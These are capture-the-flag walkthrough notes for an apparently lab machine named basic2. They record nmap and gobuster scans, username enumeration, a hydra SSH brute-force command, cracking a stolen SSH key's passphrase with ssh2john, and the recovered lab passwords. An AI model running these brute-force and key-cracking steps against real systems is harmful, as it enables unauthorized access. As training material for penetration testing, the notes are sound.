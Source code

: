 # Results from running nmap -A 10.10.107.22

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13?
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http-proxy
| fingerprint-strings: 
|   LDAPSearchReq, LPDString: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 2243
|     Date: Sun, 11 Jul 2021 19:29:01 GMT
|     Connection: close
|     
Host script results:
|_clock-skew: mean: 1h21m05s, deviation: 2h18m34s, median: 1m05s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2021-07-11T15:29:05-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-11T19:29:05
|_  start_date: N/A

# results from gobuster dir -u http://10.10.107.22 -w /usr/share/wordlists/dirb/big.txt -t 250

/.htpasswd            (Status: 403) [Size: 296]
/.htaccess            (Status: 403) [Size: 296]
/development          (Status: 301) [Size: 318] [--> http://10.10.107.22/development/]

# using enum4linx tool
username - jan

# using hydra hydra -l jan -P rockyou.txt ssh://10.10.107.22 to bruteforce the password
armando

# Service used to access server
SSH

# What is the name of the other user you found
kay

# using linPEAS, found .ssh/id_rsa to be the vector for privilege escalation

# copied the id_rsa key and used ssh2john to retrieve the passphrase
beeswax

# logged into kay account with ssh -i kay_rsa kay@10.10.107.22, checked pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
